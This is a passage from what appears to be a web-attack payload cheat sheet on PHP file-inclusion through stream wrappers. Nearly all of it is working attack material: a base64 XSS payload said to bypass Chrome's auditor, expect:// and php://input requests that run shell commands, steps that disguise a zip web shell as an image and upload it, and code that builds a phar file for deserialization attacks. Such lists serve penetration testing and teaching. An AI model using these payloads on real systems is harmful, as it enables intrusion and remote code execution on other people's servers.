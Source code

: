 Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`


### Wrapper expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```


### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

Alternatively, Kadimus has a module to automate this attack.

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file
  ```python
  zip payload.zip payload.php;
  mv payload.zip shell.jpg;
  rm payload.php
  ```
3. Upload the archive and access the file using the wrappers: http://example.com/index.php?page=zip://shell.jpg%23payload.php


### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
